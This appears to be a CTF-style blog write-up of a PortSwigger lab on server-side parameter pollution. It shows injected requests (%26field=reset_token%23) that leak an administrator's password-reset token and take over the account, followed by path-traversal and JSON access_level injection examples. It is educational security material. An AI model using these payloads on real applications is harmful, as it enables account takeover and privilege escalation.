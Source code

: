 ```yaml
---
layout: post
title: "Server-Side Parameter Pollution"
date: 2025-03-28 00:00:00 +0100
categories: [portswigger, hacking]
tags: [ctf, server-side parameter pollution, injection, web]
---
```


![pp](pics/param-pollution.png)

### Server-Side Parameter Pollution Intro

Currently working not only with tryhackme.com but with portswigger.net stuff also so there is a Server-Side Parameter Pollution topic in API testing so there was a thing I wanted to note from the lab.

Server-Side Parameter Pollution (SSPP) is a web security vulnerability where an attacker manipulates parameters sent to the server to interfere with backend logic. Unlike Client-Side Parameter Pollution (CSPP), which affects JavaScript and browser behavior, SSPP targets server-side applications.

From the Portswigger academy:

- To test for server-side parameter pollution in the query string, place query syntax characters like `#`, `&`, and `=` in your input and observe how the application responds, try to inject invalid parameters and override existing
- To confirm whether the application is vulnerable to server-side parameter pollution, you could try to override the original parameter. Do this by injecting a second parameter with the same name. The impact of this depends on how the application processes the second parameter. This varies across different web technologies.

```
Examples:
    PHP parses the last parameter only. This would result in a search for second parameter.
    ASP.NET combines both parameters. This would result in a user search for first,second, which might result in an Invalid username error message.
    Node.js / express parses the first parameter only. This would result in a user search for first, giving an unchanged result.
```

### Exploitation
There was a link for those who forgot password, so using it from burp:

Here is our initial request (PING):

```
POST /forgot-password HTTP/2
Host: 0abf00a203f9357d800b8ae20009000b.web-security-academy.net
Cookie: session=Xm6CE6vD90tpPiCEMDBjT8YRHYxuxOTF
Content-Length: 82
Sec-Ch-Ua: "Chromium";v="127", "Not)A;Brand";v="99"
Content-Type: x-www-form-urlencoded
Accept-Language: en-US
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Sec-Ch-Ua-Platform: "Linux"
Accept: */*
Origin: https://0abf00a203f9357d800b8ae20009000b.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0abf00a203f9357d800b8ae20009000b.web-security-academy.net/forgot-password
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

csrf=lCh44lToAx63BikFSr0KR1GTTbZfK0eP&username=administrator
```

And response (PONG) we get:

```
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 49

{"type":"email","result":"*****@normal-user.net"}
```

Let's play with a payload (I intentionaly skip the body because we don't need to change it for now) add `&` (url encoded `%26`) with same parameter:

PING:

```
...

csrf=lCh44lToAx63BikFSr0KR1GTTbZfK0eP&username=administrator%26username=carlos
```

PONG:

```
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 49

{"type":"email","result":"*****@normal-user.net"}
```

Since we don't have any error, probably we could try to truncate our request using `#` (url encoded `%23`)

PING:

```
...

csrf=lCh44lToAx63BikFSr0KR1GTTbZfK0eP&username=administrator%26username=carlos%23
```

PONG:
```
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 33

{"error": "Field not specified."}
```

Let's specify `field` in this case:

PING:

```
...

csrf=lCh44lToAx63BikFSr0KR1GTTbZfK0eP&username=administrator%26field=username%23
```

PONG:

```
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 33

{"type":"username","result":"administrator"}
```

Ok so we have a pattern to work with, if you will pay attention to forgotPassword.js you will find a new endpoint: `/forgot-password?reset_token=${resetToken}` so let's try `reset_token`as a field:

PING:

```
...

csrf=lCh44lToAx63BikFSr0KR1GTTbZfK0eP&username=administrator%26field=reset_token%23
```

PONG:

```
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 33

{"type":"reset_token","result":"54ru8lf8w9cwqf3mlehks7x0i2h4r9fg"}
```

Now we will visit an endpoint using our token and change password to a new one:

`https://0abf00a203f9357d800b8ae20009000b.web-security-academy.net/forgot-password?reset_token=54ru8lf8w9cwqf3mlehks7x0i2h4r9fg`

### Some more theory with examples from the PortSwigger academy
**Server-Side parameter pollution in REST paths**

Consider an application that enables you to edit user profiles based on their username. Requests are sent to the following endpoint:
`GET /edit_profile.php?name=peter`

This results in the following server-side request: `GET /api/private/users/peter`

An attacker may be able to manipulate server-side URL path parameters to exploit the API. To test for this vulnerability, add path traversal sequences to modify parameters and observe how the application responds.

You could submit URL-encoded `peter/../admin` as the value of the name parameter: `GET /edit_profile.php?name=peter%2f..%2fadmin`

This may result in the following server-side request: `GET /api/private/users/peter/../admin`

If the server-side client or back-end API normalize this path, it may be resolved to `/api/private/users/admin`.

**Server-Side parameter pollution in structured data formats**

Consider an application that enables users to edit their profile, then applies their changes with a request to a server-side API. When you edit your name, your browser makes the following request:

```
POST /myaccount
name=peter
```

This results in the following server-side request:

```
PATCH /users/7312/update
{"name":"peter"}
```

You can attempt to add the access_level parameter to the request as follows:

```
POST /myaccount
name=peter","access_level":"administrator
```

If the user input is added to the server-side JSON data without adequate validation or sanitization, this results in the following server-side request:

```
PATCH /users/7312/update
{name="peter","access_level":"administrator"}
```

Consider a similar example, but where the client-side user input is in JSON data. When you edit your name, your browser makes the following request:

```
POST /myaccount
{"name": "peter"}
```

This results in the following server-side request:

```
PATCH /users/7312/update
{"name":"peter"}
```

You can attempt to add the access_level parameter to the request as follows:

```
POST /myaccount
{"name": "peter\",\"access_level\":\"administrator"}
```

If the user input is decoded, then added to the server-side JSON data without adequate encoding, this results in the following server-side request:

```
PATCH /users/7312/update
{"name":"peter","access_level":"administrator"}
```